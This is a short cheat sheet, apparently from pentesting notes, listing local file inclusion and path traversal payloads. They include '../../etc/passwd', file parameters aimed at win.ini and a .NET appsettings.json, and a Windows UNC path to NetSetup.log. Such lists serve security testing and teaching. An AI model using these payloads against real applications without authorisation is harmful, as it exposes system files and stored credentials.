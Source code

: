 
## LFI - file traversal

`../../etc/passwd` 


###  LFI for all the different systems 
- Note not all the systems use .aspx (just notice the parameter to path and file exploitation with the systems)

Common LFI Payloads: If the application takes a file parameter, try injecting payloads that reference sensitive files on the system. For example:

/file.aspx?file=../../../../etc/passwd (for Linux systems)
/file.aspx?file=../../../../windows/win.ini (for Windows systems)
/file.aspx?file=../../../../appsettings.json (for .NET-based apps)

- Windows LFI
  - \\localhost\c$\Windows/debug/NetSetup.log